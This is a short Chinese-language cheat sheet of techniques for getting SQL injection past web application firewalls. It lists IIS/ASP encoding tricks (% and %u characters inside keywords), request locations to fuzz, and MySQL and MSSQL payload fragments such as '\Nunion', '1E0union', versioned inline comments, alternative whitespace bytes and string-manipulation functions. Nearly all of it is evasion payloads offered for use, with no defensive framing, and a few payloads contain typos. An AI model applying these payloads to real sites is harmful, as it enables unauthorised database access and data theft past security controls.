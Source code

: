 `WAF类型`

`根据WEB应用程序特性进行Waf绕过`
    
Web应用层
    
web容器层
    
    % 绕过   asp+iis   即s%elect
    
    %u 特性  asp（x）+ iis   select=s%u006c%u0006ect
    
    apache
    除了使用以上Web容器的特性绕过还可以手工Fuzz Waf
    具体Fuazz如下:
    get请求处 
    header请求处 
    post urlencode内容处 
    post form-data内容处
    
数据库交互层
        
        \Nunion的形式 userid=\Nunion select 
         
        E0的形式 select * from table where id=1E0union selsect 1,2,3
        
        count函数的形式 select(count(*))from(users)
        
        浮点数的形式如1.1,8.0  userid=1.1union select
        
        8e0的形式 userid=8e0union select
        
        利用/*!50000*/的形式 userid=1 un/*!*/ion /*!50000select*/
        
        Mysql中可以利用的空白字符有:%09,%0a,%0b,%0c,%0d,%a0；
        Mssql中可以利用的空白字符有:01,02,03,04,05,06,07,08,09,0A,0B,0C,0D,0E,0F,10,11,12,13,14,15,16,17,18,19,1A,1B,1C,1D,1E,1F,20 
        字符串截取函数 
        Mid(version(),1,1)
        Substr(version(),1,1)
        Substring(version(),1,1)
        Lpad(version(),1,1)
        Rpad(version(),1,1)
        Left(version(),1)
        reverse(right(reverse(version()),1)
        字符串连接函数
        concat(version(),'|',user());
        concat_ws('|',1,2,3)
        字符串转换
        Char(49)
        Hex(‘a’)
        Unhex(61)
   MSSQL
        
        可以使用内联注释/**/    
        :号 and:substring()
        %2b号 and%2b
        字符串截取函数
        Substring(@@version,1,1)
        Left(@@version,1)
        Right(@@version,1)
        字符串转换函数
        Ascii(‘a’) 这里的函数可以在括号之间添加空格的，一些waf过滤不严会导致bypass
        Char(‘97’)
        
